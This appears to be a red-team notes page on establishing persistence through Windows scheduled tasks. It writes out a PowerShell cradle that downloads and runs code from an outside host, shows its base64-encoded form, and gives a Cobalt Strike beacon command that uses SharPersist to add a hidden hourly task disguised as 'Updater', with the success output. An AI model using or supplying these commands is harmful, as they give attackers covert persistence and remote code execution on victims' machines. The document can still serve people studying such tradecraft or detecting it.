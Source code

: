 # Scheduled Tasks

TODO: Add scheduled task enumeration. schtask commands, privileges (ability to create tasks for current user), possible hijacks, etc.

## Creating Tasks

Windows Task Scheduler allows us to create tasks that execute on a pre-defined trigger. For example they can be:

* Time of day
* User Login
* Computer Idle
* Every n hours, minutes, seconds

### Building Payload

For this example we will base64 encode our PowerShell payload using -enc (-EncodedCommand)

<pre class="language-powershell"><code class="lang-powershell">PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://copperwired.com/a"))'

<strong>PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
</strong></code></pre>

#### Output:

```powershell
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBjAG8AcABwAGUAcgB3AGkAcgBlAGQAL
gBjAG8AbQAvAGEAIgApACkA
```

### Execute Payload - SharPersist & Cobalt Strike

We can use the `execute-shellcode` command from an existing beacon in CobaltStrike to establish persistence. We'll also have to utilize a tool like [SharPersist](https://github.com/mandiant/SharPersist) as there are no built-in persistence tools.&#x20;

```powershell
beacon> execute-assembly C:\Tools\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc 
SQBFAFgAIAAo...ACgAbgBlAHcALQBvAGkA" -n "Updater" -m add -o hourly

[08/23 05:51:03] [+] received output:

[+] SUCCESS: Scheduled task added 
```

* `-t` is the desired persistence technique.
* `-c` is the command to execute.
* `-a` are any arguments for that command.
* `-n` is the name of the task.
* `-m` is to add the task (you can also `remove`, `check` and `list`).
* `-o` is the task frequency.

### Confirm

We can confirm we successfully created a scheduled task by opening the Task Scheduler.

<figure><img src="../../.gitbook/assets/Screenshot 2024-07-31 at 2.09.43 AM.png" alt=""><figcaption><p>Obviosly just for testing, but can click "Run" and a beacon should pop up.</p></figcaption></figure>
